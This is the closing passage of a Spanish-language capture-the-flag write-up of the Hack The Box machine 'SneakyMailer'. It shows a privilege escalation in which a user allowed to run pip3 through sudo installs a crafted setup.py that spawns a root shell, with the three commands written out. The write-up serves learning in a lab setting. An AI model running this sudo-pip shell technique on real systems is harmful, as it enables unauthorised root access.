 Si hacemos una búsqueda rápida en internet, podemos conseguir una Shell indicándole a `pip3` que instale un paquete temporal, el cual simplemente hace eso, darnos una Shell, pero como el binario puede ser ejecutado con permisos de administrador, usaremos eso para obtener una sesión como el usuario administrador :)

* [Info de como conseguir la Shell mediante pip](https://gtfobins.github.io/gtfobins/pip/).

```bash
low@sneakymailer:~$ TF=$(mktemp -d)
low@sneakymailer:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
low@sneakymailer:~$ sudo usr/bin/pip3 install $TF
```

Yyyyyy...

![bashpip3shellroot](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sneakymailer/bashpip3shellroot.png)

Obtenemos la Shell como administrador, veamos las flags :)

![flagSneakymailer](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sneakymailer/flagSneakymailer.png)

...

Y eso es todo para esta máquina...

Muy enredada, poquito de locura pero se disfrutó, entendimos como son manejados los paquetes en python (PyPI) y jugamos un poco con "phishing" al inicio. Claramente la parte más desafiante fue la creación y ejecución del paquete pero de eso se trata, aprender y romperse la cabeza un poquito y lo más importante, nunca rendirse :)

La escalada quizás fue hecha para compensar el peso del inicio y la obtención del usuario. De igual forma es superinteresante ver que con 3 líneas ya eres administrador :P

Muchas gracias por leer y a romper todo, que pases un feliz y lindo día/noche/ninguna :P
